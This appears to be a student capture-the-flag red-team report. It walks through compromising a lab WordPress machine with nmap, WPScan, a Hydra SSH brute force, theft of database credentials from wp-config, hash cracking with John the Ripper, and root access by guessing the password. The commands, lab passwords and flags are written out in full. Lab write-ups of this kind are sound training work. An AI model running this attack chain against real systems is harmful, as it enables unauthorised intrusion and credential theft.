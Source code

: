 Red Team: Summary of Operations

Table of Contents

	- Exposed Services
	- Critical Vulnerabilities
	- Exploitation


Exposed Services
Nmap scan results for each machine reveal the below services and OS details:
Command: '$ nmap -sV 192.168.1.110'

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP		Open		SSH
2. Port 80/TCP		Open		HTTP
3. Port 111/TCP		Open		rcpbid
4. Port 139/TCP		Open		netbios-ssn
5. Port 445/TCP		Open		netbios-ssn



### Critical Vulnerabilites
The following vulnerabilities were identified on each target:

**Target 1**

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation


### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**

**flag1.txt: '{b9bbcb33e11b80be759c4e844862482d}'


	- Exploit Used:
		- WPScan to enumerate users on the Target1 WordPress site.
		- Command:
			- '$ wpscan --url 192.168.1.110/wordpress'
			   $ wpscan --url 192.168.1.110 --enumerate -u'
		- [WPSCAN Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/wpscan.png)


	- Targeting the user 'michael'
		- Small manual Brute Force attack to guess/finds Michael's password.
		- First, the user's password is weak and obvious.
		- Second, for pratice, Hydra can be used to crack Michaels's password:
			- Command: 'hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh
		    
            	- [HYDRA Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/hydra-command-2.png)		


	- Capturing Flag1: SSH in as Michael, transvering through directories and files.
		- The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
		- Commands:
			- 'ssh michael@192.168.1.110'
			- 'password: michael'
			- 'cd /var/www/html'
			- 'ls -l'
			- 'nano services.html'
			
		- [FLAG1 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag1.png)
			
            	


**flag2.txt: '{fc3fd5Bdcdad9ab23facac6e9a365e581c33}'


Exploit Used

	- The same exploit used to gain flag1.
	- Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
		- Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found. 
		- Commands:
			- 'ssh michael@192.168.1.110'
			- 'password: michael'
			- 'cd /var/www'
			- 'ls -l'
			- 'cat flag2.txt'
		
		- [FLAG2 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag2.png)

**flag3.txt: '{afc01ab56b50591e7dccf93122770cd23}'

Exploit Used:
	- Same exploits to gain Flag1 and Flag2.
	- Capturing Flag3: Access the MYSQL database.
		- Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
	- Commands:
		- 'mysql -u root -p 'R@v3nSecurity' '
		- 'show databases;'
		- 'use wordpress;'
		- 'select * from wp_posts;
		
       	- [FLAG3 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag3.png)

**flag4.txt: '{715dea6c055b9fe3337544932F2941ce}'

Exploit Used:
	- Unsalted password hash and use of the privilege escalation with Python.
	- Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
		- Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
		- The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
		- Commands: 
			- 'myql -u root -p'R@v3nSecurity' '
			- 'show databases;'
			- 'use wordpress;'
			- 'show tables;'
			- 'select * from users;'

	- On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
	- Command:
		- 'john wp_hashes.txt'
		
        [John Command Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/steven-password-2.png)
        

	- Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root           passwords.
	- Commands:
		- 'ssh steven@192.168.1.110'
		- 'password: pink:84'
		- 'sudo -l'
		- 'su root'
		- 'password: toor'
		- 'find /-iname flag*'
		- 'cat /root/flag4.txt
		
        - [FLAG4 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag4.png)
